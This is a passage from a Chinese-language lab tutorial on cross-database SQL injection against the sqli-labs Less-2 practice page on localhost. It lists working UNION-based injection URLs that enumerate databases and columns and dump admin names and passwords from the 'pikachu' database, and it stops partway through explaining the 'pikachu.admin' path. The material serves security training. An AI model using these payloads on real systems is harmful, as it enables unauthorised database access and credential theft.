 ```
+--------------+--------------------+----------------------------+------------------------+----------+
| CATALOG_NAME | SCHEMA_NAME        | DEFAULT_CHARACTER_SET_NAME | DEFAULT_COLLATION_NAME | SQL_PATH |
+--------------+--------------------+----------------------------+------------------------+----------+
| def          | information_schema | utf8                       | utf8_general_ci        | NULL     |
| def          | challenges         | gbk                        | gbk_chinese_ci         | NULL     |
| def          | mysql              | latin1                     | latin1_swedish_ci      | NULL     |
| def          | performance_schema | utf8                       | utf8_general_ci        | NULL     |
| def          | pikachu            | utf8                       | utf8_unicode_ci        | NULL     |
| def          | security           | gbk                        | gbk_chinese_ci         | NULL     |
| def          | sys                | utf8                       | utf8_general_ci        | NULL     |
+--------------+--------------------+----------------------------+------------------------+----------+
7 rows in set (0.00 sec)
```
1. 获取所有的数据库名。
```
http://localhost/sqli-labs/Less-2/index.php?id=-1%20union%20select%201,group_concat(schema_name),3%20from%20information_schema.schemata
```
1. 通过上面的网页的源代码也可以看到上面显示的所有数据库名。1. 至此便产生了一个问题：该怎么知道哪个数据库名是要进行跨库注入的目标呢？
答：可以通过网站域名与数据库名字的关联来进行确认，如果此办法行不通便可以将所有数据库全部爬出来进行分析。

此次要进行跨库注入的目标是“Pikachu漏洞联系平台”，而上一步获取到的所有数据库里可以发现有一个数据库名称为“pikachu”，不难判断出此数据库即为跨库注入的目标的数据库。
1. 获取指定“pikachu”数据库名下的表名信息。1. 获取指定“pikachu”数据库下的表名“admin”下的列名信息。
```
正常查询方式：
http://localhost/sqli-labs/Less-2/index.php?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='admin'
```

注意：因为整个数据库中可能包含多个“admin”表，所以上述查询方式可能会查询到其它数据库内名称为“admin”的表，所以在进行此步查询时，最好在末尾添加限制条件：“table_schema=' 目标数据库名 '”。

```
添加限制条件后的查询方式：
http://localhost/sqli-labs/Less-2/index.php?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='admin' and table_schema='pikachu'
```
1. 获取指定“pikachu”数据库下的表名“admin”下的列名“name”、“password”下的数据信息。
```
http://localhost/sqli-labs/Less-2/index.php?id=-1 union select 1,name,password from pikachu.admin
```

在这里可能会产生一个疑问：为什么查询路径最后面写的是“pikachu.admin”？
